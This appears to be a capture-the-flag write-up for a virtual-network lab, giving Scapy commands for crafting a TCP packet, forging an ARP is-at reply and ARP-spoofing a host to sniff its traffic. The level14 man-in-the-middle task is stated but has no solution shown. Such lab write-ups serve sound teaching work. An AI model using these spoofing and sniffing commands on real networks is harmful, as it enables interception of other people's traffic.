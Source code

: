 ```python
>>> pk2=Ether(src="42:f4:f8:57:fa:a4",dst="be:9b:98:0e:32:27")/IP(src="10.0.0.2",dst="10.0.0.3")/TCP(sport=31337,dport=31337,seq=31338,ack=3424417207,flags='A')
>>> response1=srp(pk2,iface='eth0')

```

## level12
> Manually send an Address Resolution Protocol packet

In this series of challenges, you will be working within a virtual network in order to intercept networked traffic.
In this challenge you will manually send an Address Resolution Protocol packet.
The packet should have `ARP op=is-at` and correctly inform the remote host of where the sender can be found.
The packet should be sent to the remote host at `10.0.0.3`.

```python
scapy

>>> get_if_hwaddr("eth0")
'5e:76:a7:a8:dc:75'
>>> pk=Ether(src="5e:76:a7:a8:dc:75",dst="ff:ff:ff:ff:ff:ff")/ARP(op="is-at",hwsrc="5e:76:a7:a8:dc:75",psrc="10.0.0.2")
>>> srp(pk,iface='eth0')
```

## level13
> Hijack traffic from a remote host using ARP

In this series of challenges, you will be working within a virtual network in order to intercept networked traffic.
In this challenge you will hijack traffic from a remote host using ARP.
You do not have the capabilities of a NET ADMIN.
The remote host at `10.0.0.4` is communicating with the remote host at `10.0.0.2` on port `31337`.

```python
>>> get_if_hwaddr("eth0")
'8e:4b:78:5c:3c:6a'
>>> pk=Ether(src="8e:4b:78:5c:3c:6a",dst="ff:ff:ff:ff:ff:ff")/ARP(op="is-at",hwsrc="8e:4b:78:5c:3c:6a",psrc="10.0.0.2",pdst="10.0.0.4")
>>> sendp(pk,iface="eth0")
>>> sniff(iface='eth0',filter='tcp[tcpflags]&tcp-push!=0',prn=hexdump) 

```

## level14
> Man-in-the-middle traffic between two remote hosts and inject extra traffic

In this series of challenges, you will be working within a virtual network in order to intercept networked traffic.
In this challenge you will man in the middle traffic between two remote hosts and inject extra traffic.
The remote host at `10.0.0.4` is communicating with the remote host at `10.0.0.3` on port `31337`.
